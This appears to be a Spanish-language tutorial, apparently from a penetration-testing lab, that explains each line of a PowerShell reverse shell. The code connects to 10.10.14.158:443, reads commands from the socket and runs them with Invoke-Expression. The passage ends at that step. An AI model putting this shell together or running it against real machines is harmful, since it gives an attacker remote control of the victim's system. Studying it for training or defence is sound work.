 ### **Vinculando un Socket**

```powershell
"$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);
```

Establece la variable `$client` igual a (`=`) el cmdlet `New-Object`, que crea una instancia del objeto `.NET` `System.Net.Sockets.TCPClient`. Este objeto se conectará con el socket TCP en la dirección `10.10.14.158` y el puerto `443`. El punto y coma (;) asegura que los comandos y el código se ejecuten secuencialmente.

### **Estableciendo el Stream de Comandos**

```powershell
$stream = $client.GetStream();
```

Establece la variable `$stream` igual a `$client` y utiliza el método `.NET` `GetStream`, que facilita las comunicaciones de red. El punto y coma (;) asegura que los comandos y el código se ejecuten secuencialmente.

### **Stream de Bytes Vacíos**

```powershell
[byte[]]$bytes = 0..65535|%{0};
```

Crea un array de tipo byte (`[byte[]]`) llamado `$bytes` que devuelve 65,535 ceros como valores en el array. Básicamente, es un flujo de bytes vacío que se dirigirá al listener TCP que espera una conexión en el equipo de ataque.

### **Parámetros del Stream**

```powershell
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

Inicia un bucle `while` que contiene la variable `$i` igual a (`=`) el método `.NET` `Stream.Read`. Los parámetros: el buffer (`$bytes`), el desplazamiento (`0`) y la cuenta (`$bytes.Length`) están definidos dentro de los paréntesis del método.

### **Definiendo la Codificación de Bytes**

```powershell
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```

Establece la variable `$data` igual a una clase de codificación ASCII de `.NET`, utilizada junto con el método `GetString` para codificar el stream de bytes (`$bytes`) en texto ASCII. Esto asegura que lo que escribamos no se transmita como bits vacíos, sino codificado en texto ASCII. El punto y coma (;) asegura la ejecución secuencial de los comandos.

**Invoke-Expression**

```powershell
$sendback = (iex $data 2>&1 | Out-String );
```

